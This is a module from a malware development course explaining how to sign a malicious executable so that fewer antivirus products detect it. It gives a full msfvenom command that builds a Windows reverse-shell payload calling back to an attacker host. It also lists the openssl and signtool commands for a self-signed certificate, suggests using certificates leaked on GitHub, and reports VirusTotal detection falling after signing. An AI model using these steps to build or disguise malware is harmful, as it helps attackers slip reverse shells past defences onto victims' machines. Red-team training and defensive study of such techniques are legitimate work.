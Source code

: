 32. Malware Binary Signing[**32. Malware Binary Signing**](https://maldevacademy.com/modules/32)
======================================================================

**Malware Binary Signing**
--------------------------

### **Introduction**

When a user attempts to download a legitimate executable file from the internet, it is often signed by the company as a way of proving to the user that it is a trustworthy executable. Although security solutions will still scan the executable, additional scrutiny would've been placed on it had the binary been unsigned.

This module walks through the steps required to sign a malicious binary which can increase its trustworthiness. The module will be demonstrating binary signing on an executable generated via Msfvenom: `msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.0.1 LPORT=4444 -f exe -o maldev.exe`

### **Testing Binary Detection Rate**

Before starting, the binary was uploaded to VirusTotal in order to see the detection rate before signing the binary. The detection rate is quite high with 52/71 vendors flagging the file as being malicious.

[![](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/vt-1.png)](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/vt-1.png)### **Obtaining a Certificate**

There are several ways to get a certificate:

* The most ideal way is to purchase the certificate from a trusted vendor such as [DigiCert](https://www.digicert.com/).
* Another possibility is to use a self-signed certificate. Although this will not be as effective as a trusted certificate, this module will prove that it can still have an impact on detection rates.
* The last option would be to find valid certificates that are leaked on the internet (e.g. on Github). Ensure no laws are broken by using these leaked certificates.

### **Generating a Certificate**

This demo will use the self-signed certificate route. This requires `openssl` which is pre-built into Kali Linux.

To create a certificate first generate the required `pem` files. The tool requires information to include inside the certificate.

`openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -sha256 -days 365`




[![](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/sign.png)](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/sign.png)Next, generate a `pfx` file using the `pem` files. The tool will ask for a key phrase to be entered.

`openssl pkcs12 -inkey key.pem -in cert.pem -export -out sign.pfx`

[![](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/pfx-creation.png)](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/pfx-creation.png)### **Signing The Binary**

Signing the binary requires `signtool.exe` which is part of Windows SDK. It can be installed [here](https://developer.microsoft.com/en-us/windows/downloads/windows-sdk/). Once that's done, the binary can be signed using the command below.

`signtool sign /f sign.pfx /p <pfx-password> /t http://timestamp.digicert.com /fd sha256 binary.exe`

Viewing the binary's properties will now show a "Digital Signature" tab which shows the details of the certificate that was used to sign the binary. It also shows a warning that the certificate is not trusted.

[![](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/maldev-properties.png)](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/maldev-properties.png)### **Testing Signed Binary Detection Rate**

The binary is re-uploaded to VirusTotal to check if there was an impact on the detection rate. Unsurprisingly, the number of security solutions that flagged the file dropped from 52 to 47. Initially, it may not appear as a massive drop in detection rate but it must be emphasized that no changes were made to the file besides signing it with a certificate.

[![](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/vt-2.png)](32%20Malware%20Binary%20Signing%20fe21c309a829423fa32229958b372dac/vt-2.png)